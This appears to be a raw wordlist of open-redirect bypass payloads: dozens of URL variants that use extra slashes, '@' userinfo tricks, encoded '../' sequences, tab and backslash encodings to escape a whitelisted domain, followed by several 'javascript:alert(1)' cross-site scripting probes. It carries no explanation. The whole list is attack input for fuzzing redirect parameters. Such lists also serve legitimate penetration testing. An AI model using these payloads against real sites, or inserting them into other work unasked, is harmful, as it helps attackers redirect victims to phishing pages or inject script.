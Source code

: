 ////www.whitelisteddomain.tld@google.com//
https://google.com//
https://www.whitelisteddomain.tld@google.com//
//https://google.com//
//https://www.whitelisteddomain.tld@google.com//
//www.google.com/%2e%2e%2f
//www.whitelisteddomain.tld@www.google.com/%2e%2e%2f
///www.google.com/%2e%2e%2f
///www.whitelisteddomain.tld@www.google.com/%2e%2e%2f
////www.google.com/%2e%2e%2f
////www.whitelisteddomain.tld@www.google.com/%2e%2e%2f
https://www.google.com/%2e%2e%2f
https://www.whitelisteddomain.tld@www.google.com/%2e%2e%2f
//https://www.google.com/%2e%2e%2f
//https://www.whitelisteddomain.tld@www.google.com/%2e%2e%2f
///www.google.com/%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2e%2e
////www.google.com/%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2e%2e
https:///www.google.com/%2e%2e
https:///www.whitelisteddomain.tld@www.google.com/%2e%2e
//https:///www.google.com/%2e%2e
//www.whitelisteddomain.tld@https:///www.google.com/%2e%2e
/https://www.google.com/%2e%2e
/https://www.whitelisteddomain.tld@www.google.com/%2e%2e
///www.google.com/%2f%2e%2e
///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
////www.google.com/%2f%2e%2e
////www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
https:///www.google.com/%2f%2e%2e
https:///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
/https://www.google.com/%2f%2e%2e
/https://www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
/https:///www.google.com/%2f%2e%2e
/https:///www.whitelisteddomain.tld@www.google.com/%2f%2e%2e
/%09/google.com
/%09/www.whitelisteddomain.tld@google.com
//%09/google.com
//%09/www.whitelisteddomain.tld@google.com
///%09/google.com
///%09/www.whitelisteddomain.tld@google.com
////%09/google.com
////%09/www.whitelisteddomain.tld@google.com
https://%09/google.com
https://%09/www.whitelisteddomain.tld@google.com
/%5cgoogle.com
/%5cwww.whitelisteddomain.tld@google.com
//%5cgoogle.com
//%5cwww.whitelisteddomain.tld@google.com
///%5cgoogle.com
///%5cwww.whitelisteddomain.tld@google.com
////%5cgoogle.com
////%5cwww.whitelisteddomain.tld@google.com
https://%5cgoogle.com
https://%5cwww.whitelisteddomain.tld@google.com
/https://%5cgoogle.com
/https://%5cwww.whitelisteddomain.tld@google.com
https://google.com
https://www.whitelisteddomain.tld@google.com
javascript:alert(1);
javascript:alert(1)
//javascript:alert(1);
/javascript:alert(1);
//javascript:alert(1)